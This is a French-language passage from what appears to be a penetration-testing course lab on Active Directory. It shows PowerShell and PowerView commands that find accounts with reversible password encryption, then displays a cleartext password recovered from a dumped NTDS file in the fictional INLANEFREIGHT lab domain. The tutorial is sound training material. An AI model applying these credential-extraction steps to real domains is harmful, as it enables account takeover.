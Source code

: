 #### Enumérer davantage à l'aide de Get-ADUser

  Enumérer davantage à l'aide de Get-ADUser

```
PS C:\htb> Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl

DistinguishedName  : CN=PROXYAGENT,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
Enabled            : True
GivenName          :
Name               : PROXYAGENT
ObjectClass        : user
ObjectGUID         : c72d37d9-e9ff-4e54-9afa-77775eaaf334
SamAccountName     : proxyagent
SID                : S-1-5-21-3842939050-3880317879-2865463114-5222
Surname            :
userAccountControl : 640
UserPrincipalName  :

```

Nous pouvons voir qu'un compte, `proxyagent`, a également l'option de cryptage réversible définie avec PowerView :

#### Vérification de l'option de chiffrement réversible à l'aide de Get-DomainUser

  Vérification de l'option de chiffrement réversible à l'aide de Get-DomainUser

```
PS C:\htb> Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'} |select samaccountname,useraccountcontrol

samaccountname                         useraccountcontrol
--------------                         ------------------
proxyagent     ENCRYPTED_TEXT_PWD_ALLOWED, NORMAL_ACCOUNT
syncron        ENCRYPTED_TEXT_PWD_ALLOWED, NORMAL_ACCOUNT

```

Nous remarquerons que l'outil a déchiffré le mot de passe et nous a fourni la valeur en clair.

#### Affichage du mot de passe décrypté

  Affichage du mot de passe décrypté

```
dsgsec@htb[/htb]$ cat inlanefreight_hashes.ntds.cleartext

proxyagent:CLEARTEXT:Pr0xy_ILFREIGHT!

```

J'ai participé à quelques engagements où tous les comptes d'utilisateurs étaient stockés à l'aide d'un cryptage réversible. Certains clients peuvent le faire pour pouvoir vider NTDS et effectuer des audits périodiques de la force du mot de passe sans avoir à recourir au craquage de mot de passe hors ligne.
